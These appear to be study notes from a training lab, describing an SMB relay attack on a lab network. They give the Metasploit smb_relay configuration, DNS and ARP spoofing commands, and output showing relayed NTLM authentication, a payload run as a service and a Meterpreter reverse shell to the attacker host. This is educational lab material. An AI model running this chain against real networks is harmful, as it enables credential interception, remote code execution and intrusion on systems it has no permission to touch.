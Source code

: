 # SMB Relay Attack

### How SMB Relay Attacks Work
**1. Interception**\
The attacker sets up a man-in-middle position between the client and the server.\
Can be done using ARP spoofing, DNS poisoning or setting up a rogue SMB server.\
**2. Caputuring Authentication**\
\- A client connects to a legitimate sesrver via SMB\
\- It sends authentication data\
\- The attacker caputures this data (might include NTLM hashes)\
**3. Relaying to legitimate Server**\
Instead of decrypting the captured NTLM hash, the attacker relays it to another server that trusts the source\
-> This allowss the attacker to impresonate the user whose hash was captured
**4. Gain access**\
If the relay is successful, the attacker can gain access to the resources on the server.

### Tools
`dnsspoof`\
Spoof DNS replies\
It intercepts DNS requests from other machines and send back fake response.


### Practice
Lab environment
```bash
                         ┌────────────────────────────┐
                         │      Default Gateway       │
                         │        172.16.5.1          │
                         └────────────┬───────────────┘
                                      │
               ┌──────────────────────┴──────────────────────────┐
               │                                                 │
   ┌──────────────────────────┐                    ┌──────────────────────────┐
   │ fileserver.sportsfoo.com │                    │ controller.sportsfoo.com │
   │      172.16.5.30         │                    │       172.16.5.10        │
   └──────────────────────────┘                    └──────────────────────────┘
               │                                                 │
   ┌──────────────────────────┐                    ┌──────────────────────────┐
   │      Client Machine      │                    │    Attacker Machine      │
   │       172.16.5.5         │                    │      172.16.5.101        │
   └──────────────────────────┘                    └──────────────────────────┘
               │                                                 │
       Network: 172.16.5.0/24 ───────────────────────────────────┘

                                |
                                |
                                ▼
                Network: 10.10.10.0/24
             ┌────────────────────────────┐     ┌────────────────────────────┐
             │    ftp.sportsfoo.com       │     │  intranet.sportsfoo.com    │
             │       10.10.10.6           │     │       10.10.10.10          │
             └────────────────────────────┘     └────────────────────────────┘


```

**1. Make attaker machine look like SMB with Metasploit module**\
"exploit/windows/smb/smb_relay"
> Pretend to be a SMB because "controller.sportsfoo.com" is SMB and client access\
> Run Nmap to know which service running SMB (fileserver or controller)
```bash
# Start Metasploit
msf6 > search smb_relay
msf6 > use exploit/windows/smb/smb_relay
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/smb_relay) > 

# Configure SMB Relay exploit
msf6 exploit(windows/smb/smb_relay) > set SRVHOST 172.16.5.101
# SRVHOST(Server Host) typically attaker IP address
SRVHOST => 172.16.5.101
msf6 exploit(windows/smb/smb_relay) > set LHOST 172.16.5.101
LHOST => 172.16.5.101
msf6 exploit(windows/smb/smb_relay) > set SMBHOST 172.16.5.10
# The fical destication for the relayed authentication attempt
# The real SMB (controller.sportsfoo.com)
SMBHOST => 172.16.5.10

# Exploit the module
msf6 exploit(windows/smb/smb_relay) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.5.101:4444 
[*] Started service listener on 172.16.5.101:445 
[*] Server started.
```

**2. Create a file overwrite output of command**\
Want to make client ask attacker to resolve every time it try to access any subdomain\
`echo` : A command that simply prints whatever follows it to the tandard output\
`*.sportsfoo.com` : A wildcard domain. Means "any subdomain under sportsfoo.com (fileserver.sportsfoo.com, controller.sportsfoo.com etc)"\
`>` : Redirect echo command output to the `dns` file
```bash
# New tab
└─# echo "172.16.5.101 *.sportsfoo.com" > dns
```

**3. DNS Spoof**\
Return attacker IP address to all the DNS query for any `*.sportsfoo.com` \
Host file format -> dns file
```bash
└─# dnsspoof -i eth1 -f dns
dnsspoof: listening on eth1 [udp dst port 53 and not src 172.16.5.101]
```

**4. Enable Ip forwarding for ARP spoofing**
Enable IP forwarding!\
`/proc/sys/`: contains virtual files that allow you to view and change kernel parameters at runtime.\
`net/ipv4/ip_forwarding`: specifically controls whether the Linux kernel should act as a router for IPv4 traffic.\
(0 = disable, 1 = enable)
```bash
# new tab
─# echo 1 > /proc/sys/net/ipv4/ip_forward
┌──(rootkali)-[~]
└─# 
```

**5. ARP spoofing**
Send ARP replies to `172.16.5.5` (Client) that MAC address of `172.16.5.1` (Default Gateway) is attacker's MAC address\
-> Client update its ARP cache\
-> Start sending all traffic destined for the gateway to attacker instead\
```bash
└─# arpspoof -i eth1 -t 172.16.5.5 172.16.5.1
8:0:27:d4:ee:5d 8:0:27:8f:79:cc 0806 42: arp reply 172.16.5.1 is-at 8:0:27:d4:ee:5d

# New tab
# Send gateway ARP reply that Client MAC address is attacker's
└─# arpspoof -i eth1 -t 172.16.5.1 172.16.5.5
8:0:27:d4:ee:5d a:0:27:0:0:3 0806 42: arp reply 172.16.5.5 is-at 8:0:27:d4:ee:5d
```

**6. Got result (the last line)**
`172.16.5.5` -> IP address of the machine making the DNS query (Client)\
`64169` -> Source port on the Client\
`8.8.4.4` -> Destination IP address (common public DSN Server)\
`fileserver.sportsfoo.com` -> The hostname that the client is trying to resolve
```bash
└─# dnsspoof -i eth1 -f dns                  
dnsspoof: listening on eth1 [udp dst port 53 and not src 172.16.5.101]
172.16.5.5.64169 > 8.8.4.4.53:  59316+ A? fileserver.sportsfoo.com
```

```bash
msf6 exploit(windows/smb/smb_relay) > [*] Sending NTLMSSP NEGOTIATE to 172.16.5.10
[*] Extracting NTLMSSP CHALLENGE from 172.16.5.10
[*] Forwarding the NTLMSSP CHALLENGE to 172.16.5.5:49159
[*] Extracting the NTLMSSP AUTH resolution from 172.16.5.5:49159, and sending Logon Failure response
[*] Forwarding the NTLMSSP AUTH resolution to 172.16.5.10
[+] SMB auth relay against 172.16.5.10 succeeded
[*] Connecting to the defined share...
[*] Regenerating the payload...
[*] Uploading payload...
[*] Created \MyACuubN.exe...
[*] Connecting to the Service Control Manager...
[*] Obtaining a service manager handle...
[*] Creating a new service...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Closing service handle...
[*] Deleting \MyACuubN.exe...
[*] Sending stage (175174 bytes) to 172.16.5.10
[*] Meterpreter session 1 opened (172.16.5.101:4444 -> 172.16.5.10:49158) at 2022-01-21 19:31:47 -0500
[*] Sending NTLMSSP NEGOTIATE to 172.16.5.10
[*] Extracting NTLMSSP CHALLENGE from 172.16.5.10
[*] Forwarding the NTLMSSP CHALLENGE to 172.16.5.5:49161
[*] Extracting the NTLMSSP AUTH resolution from 172.16.5.5:49161, and sending Logon Failure response
[*] Forwarding the NTLMSSP AUTH resolution to 172.16.5.10
[+] SMB auth relay against 172.16.5.10 succeeded
[*] Ignoring request from 172.16.5.10, attack already in progress.
[*] Sending NTLMSSP NEGOTIATE to 172.16.5.10
[*] Extracting NTLMSSP CHALLENGE from 172.16.5.10
[*] Forwarding the NTLMSSP CHALLENGE to 172.16.5.5:49163
[*] Extracting the NTLMSSP AUTH resolution from 172.16.5.5:49163, and sending Logon Failure response
[*] Forwarding the NTLMSSP AUTH resolution to 172.16.5.10
[+] SMB auth relay against 172.16.5.10 succeeded
[*] Ignoring request from 172.16.5.10, attack already in progress.
```

